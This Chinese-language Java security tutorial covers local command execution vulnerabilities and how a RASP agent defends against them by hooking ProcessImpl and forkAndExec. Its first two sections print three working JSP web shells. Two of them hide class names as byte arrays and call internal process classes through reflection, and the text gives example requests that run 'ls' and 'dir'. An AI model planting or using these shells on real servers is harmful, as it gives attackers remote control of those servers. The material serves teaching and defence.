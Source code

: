 # 本地命令执行漏洞

攻击者一旦可以在服务器中执行任意本地系统命令就意味着服务器已被非法控制，在Java中可用于执行系统命令的方式有API有：`java.lang.Runtime`、`java.lang.ProcessBuilder`、`java.lang.UNIXProcess`/`ProcessImpl`。



## 1. Java本地命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.Runtime`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<pre>
<%
    Process process = Runtime.getRuntime().exec(request.getParameter("cmd"));
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

攻击者通过向 `cmd` 参数传入恶意的代码即可在服务器上执行任意系统命令，请求：[http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/cmd.jsp?cmd=ls)，如下图：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920232032191.png" alt="image-20200920232032191" style="zoom:50%;" />

由于传入的`cmd`参数仅仅是一个两位的英文字母，传统的WAF基本都不具备对该类型的攻击检测，所以如果没有RASP的本地命令执行防御会导致攻击者可以在服务器中执行恶意的命令从而控制服务器。



## 2. 深层调用命令执行测试

**示例 - 存在本地命令执行代码(`java.lang.UNIXProcess`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");

    if (cmd != null) {
        Class clazz = Class.forName(new String(new byte[]{
                106, 97, 118, 97, 46, 108, 97, 110, 103, 46,
                85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115
        }));

        Constructor constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        byte[][] args = new byte[cmd.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = cmd[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
        }

        byte[] bytes  = cmd[0].getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;

        Object object = constructor.newInstance(
                result, argBlock, args.length,
                null, 1, null, new int[]{-1, -1, -1}, false
        );

        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        InputStream in = (InputStream) inMethod.invoke(object);
        int a = 0;
        byte[] b = new byte[1024];

        while ((a = in.read(b)) != -1) {
            out.println(new String(b, 0, a));
        }

        in.close();
    }
%>
</pre>
```

**示例 - 存在本地命令执行代码(`java.lang.ProcessImpl`)：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("cmd");

    if (str != null) {
        Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108}));

        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object   = constructor.newInstance(str.split("\\s+"), null, "./", new long[]{-1L, -1L, -1L}, false);
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);
        InputStream in = (InputStream) inMethod.invoke(object);
        Scanner     s  = new Scanner(in).useDelimiter("\\A");

        out.println("<pre>");
        out.println(s.hasNext() ? s.next() : "");
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

这部分对于 linux 和 windows 系统的攻击代码有所差异，但原理上一致。

Linux系统，请求：[http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls](http://localhost:8000/modules/cmd/linux-cmd.jsp?cmd=ls)，如下图：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920232507347.png" alt="image-20200920232507347" style="zoom:50%;" />

Windows系统，请求：[http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20](http://localhost:8000/windows-cmd.jsp?cmd=cmd%20/c%20dir%20)，如下图：

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20200920233748774.png" alt="image-20200920233748774" style="zoom:50%;" />



## 3. 本地命令执行防御

本地命令执行是一种非常高风险的漏洞，在任何时候都应当非常谨慎的使用，在业务中如果使用到了本地系统命令那么应当禁止接收用户传入参数。在很多时候攻击者会利用某些漏洞（如：Struts2、反序列化等）来攻击我们的业务系统，最终利用Java本地命令执行达到控制Web服务器的目的。这种情况下用户执行的系统命令对我们来说就不再受控制了，我们除了可以配置`SecurityManager`规则限制命令执行以外，使用RASP来防御本地命令执行就显得更加的便捷可靠。



### 3.1 RASP防御Java本地命令执行

在Java底层执行系统命令的API是`java.lang.UNIXProcess/ProcessImpl#forkAndExec`方法，`forkAndExec`是一个native方法，如果想要Hook该方法需要使用Agent机制中的`Can-Set-Native-Method-Prefix`，为`forkAndExec`设置一个别名，如：`__RASP__forkAndExec`，然后重写`__RASP__forkAndExec`方法逻辑，即可实现对原`forkAndExec`方法Hook。

**示例 - Java本地命令执行API：**

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20201115200801836.png" alt="image-20201115200801836" style="zoom:50%;" />

使用RASP的Hook机制捕获当前正在执行的系统命令，不过不同的API获取执行的命令参数的方式不太一样。

**示例 - Hook java.lang.ProcessImpl执行系统命令：**

```java
/**
 * Hook Windows系统ProcessImpl类构造方法
 */
@RASPMethodHook(
      className = "java.lang.ProcessImpl", methodName = CONSTRUCTOR_INIT,
      methodArgsDesc = ".*", methodDescRegexp = true
)
public static class ProcessImplHook extends RASPMethodAdvice {

   @Override
   public RASPHookResult<?> onMethodEnter() {
      try {
         String[] commands = null;

         // JDK9+的API参数不一样！
         if (getArg(0) instanceof String[]) {
            commands = getArg(0);
         } else if (getArg(0) instanceof byte[]) {
            commands = new String[]{new String((byte[]) getArg(0))};
         }

         // 检测执行的命令合法性
         return LocalCommandHookHandler.processCommand(commands, getThisObject(), this);
      } catch (Exception e) {
         RASPLogger.log(AGENT_NAME + "处理ProcessImpl异常:" + e, e);
      }

      return new RASPHookResult<?>(RETURN);
   }

}
```



#### 3.1.1 请求参数关联分析

获取到本地命令执行的参数后需要与Http请求的参数进行关联分析，检测当前执行的系统命令是否与请求参数相关，如果确认当前执行的系统命令来源于Http请求参数，那么RASP会立即阻止命令执行并阻断Http请求。

#### 3.1.2 限制执行本地系统命令

因为本地命令执行的危害性极大，所以在默认情况下可以直接禁止本地命令执行，如果业务的确有必要开启那么可以对相应的业务URL做白名单。限制的方式可分为两种类型：

1. 完全限制本地命令执行，禁止在Java中执行任何命令；
2. 允许程序内部的本地命令执行，只在有Http请求的时候才禁止执行命令；

这两种类型的禁止方案为可选方案，可在RASP的云端实时配置。

**示例 - 禁止在HTTP请求时执行本地系统命令：**

<img src="https://javasec.oss-cn-hongkong.aliyuncs.com/images/image-20201115203039369.png" alt="image-20201115203039369" style="zoom:50%;" />

